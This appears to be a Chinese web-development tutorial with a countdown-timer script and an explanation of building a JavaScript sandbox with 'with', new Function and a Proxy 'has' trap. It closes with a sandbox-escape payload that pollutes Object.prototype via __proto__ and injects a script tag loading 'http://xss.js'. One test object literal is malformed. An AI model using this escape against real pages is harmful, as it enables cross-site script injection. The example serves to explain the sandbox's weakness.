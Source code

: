 ```html
<script>    window.onload = function () {        countDown();        function addZero(i) {            return i < 10 ? "0" + i : i + "";        }        function countDown() {            var nowtime = new Date();            var endtime = new Date("2019/03/16,17:57:00");            var lefttime = parseInt((endtime.getTime() - nowtime.getTime()) / 1000);            var d = parseInt(lefttime / (24 * 60 * 60))            var h = parseInt(lefttime / (60 * 60) % 24);            var m = parseInt(lefttime / 60 % 60);            var s = parseInt(lefttime % 60);            d = addZero(d)            h = addZero(h);            m = addZero(m);            s = addZero(s);            document.querySelector(".count").innerHTML = `活动倒计时  ${d}天 ${h} 时 ${m} 分 ${s} 秒`;            if (lefttime <= 0) {                document.querySelector(".count").innerHTML = "活动已结束";                return;            }            setTimeout(countDown, 1000);        }    }</script>
```

### 沙箱隔离怎么做的什么原理

沙箱，即sandbox，顾名思义，就是让你的程序跑在一个隔离的环境下，不对外界的其他程序造成影响，通过创建类似沙盒的独立作业环境，在其内部运行的程序并不能对硬盘产生永久性的影响。

实现沙箱的三种方法

1. 借助with + new Function

首先从最简陋的方法说起，假如你想要通过eval和function直接执行一段代码，这是不现实的，因为代码内部可以沿着作用域链往上找，篡改全局变量，这是我们不希望的，所以你需要让沙箱内的变量访问都在你的监控范围内；不过，你可以使用with API，在with的块级作用域下，变量访问会优先查找你传入的参数对象，之后再往上找，所以相当于你变相监控到了代码中的“变量访问”：

```jsx
function compileCode(src) {    src = 'with (exposeObj) {' + src + '}'    return new Function('exposeObj', src)}
```

接下里你要做的是，就是暴露可以被访问的变量exposeObj，以及阻断沙箱内的对外访问。通过es6提供的proxy特性，可以获取到对对象上的所有改写：

```jsx
function compileCode(src) {    src = `with (exposeObj) { ${src} }`    return new Function('exposeObj', src)}function proxyObj(originObj) {    let exposeObj = new Proxy(originObj, {        has: (target, key) => {            if (["console", "Math", "Date"].indexOf(key) >= 0) {                return target[key]            }            if (!target.hasOwnProperty(key)) {                throw new Error(`Illegal operation for key ${key}`)            }            return target[key]        },    })    return exposeObj}function createSandbox(src, obj) {    let proxy = proxyObj(obj)    compileCode(src).call(proxy, proxy) //绑定this 防止this访问window}
```

通过设置has函数，可以监听到变量的访问，在上述代码中，仅暴露个别外部变量供代码访问，其余不存在的属性，都会直接抛出error。其实还存在get、set函数，但是如果get和set函数只能拦截到当前对象属性的操作，对外部变量属性的读写操作无法监听到，所以只能使用has函数了。接下来我们测试一下：

```jsx
const testObj = {    value: 1,    a: {        b:    }}createSandbox("value='haha';console.log(a)", testObj)
```

看起来一切似乎没有什么问题，但是问题出在了传入的对象，当调用的是console.log(a.b) 的时候，has方法是无法监听到对b属性的访问的，假设所执行的代码是不可信的，这时候，它只需要通过a.b.**proto** 就可以访问到Object构造函数的原型对象，再对原型对象进行一些篡改，例如将toString就能影响到外部的代码逻辑的。

```jsx
createSandbox(`a.b.__proto__.toString = ()=>{ new (()=>{}).constructor("var script = document.createElement('script'); script.src = 'http://xss.js'; script.type = 'text/javascript'; document.body.appendChild(script);")()}`, testObj)console.log(testObj.a.b.__proto__.toString())
```
